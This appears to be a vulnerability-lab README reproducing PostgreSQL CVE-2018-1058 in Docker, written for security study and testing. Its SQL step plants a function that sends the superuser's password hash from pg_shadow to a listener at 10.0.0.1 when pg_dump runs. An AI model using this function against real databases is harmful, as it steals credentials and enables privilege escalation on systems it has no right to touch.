 # PostgreSQL Privilege Escalation (CVE-2018-1058)

[中文文档](README.zh-cn.md)

PostgreSQL is a powerful open-source relational database system. A logical error exists in versions 9.3 through 10, where superusers can unknowingly execute malicious code created by regular users, leading to unexpected operations.

References:

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## Environment Setup

Execute the following command to start a vulnerable PostgreSQL server:

```
docker compose up -d
```

The server will start and listen on the default PostgreSQL port 5432.

## Vulnerability Reproduction

Following the second exploitation method from the references, we'll first connect to PostgreSQL as the regular user `vulhub:vulhub`:

```bash
psql --host your-ip --username vulhub
```

![](1.png)

Execute the following SQL statements and then exit:

```sql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

Now, set up a listener on port 5433 at `10.0.0.1` to wait for the superuser to trigger our "backdoor".

(Simulating superuser actions) On the target machine, execute the `pg_dump` command as the superuser:

```bash
docker compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

This command will export the contents of the `vulhub` database. When executed, our "backdoor" is triggered, and sensitive information is received on the `10.0.0.1` machine:

![](2.png)

This is just one of several exploitation methods for this vulnerability. For more exploitation techniques, please refer to the articles in the References section.
